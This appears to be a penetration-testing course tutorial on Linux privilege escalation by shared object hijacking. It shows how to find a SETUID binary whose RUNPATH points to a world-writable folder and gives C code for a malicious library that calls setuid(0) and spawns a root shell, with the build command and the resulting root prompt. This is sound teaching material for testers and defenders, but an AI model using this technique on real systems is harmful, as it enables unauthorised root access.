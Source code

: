 # Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell-session
$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell-session
$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

```shell-session
$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary.

```shell-session
$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).

```shell-session
$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.

```shell-session
$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
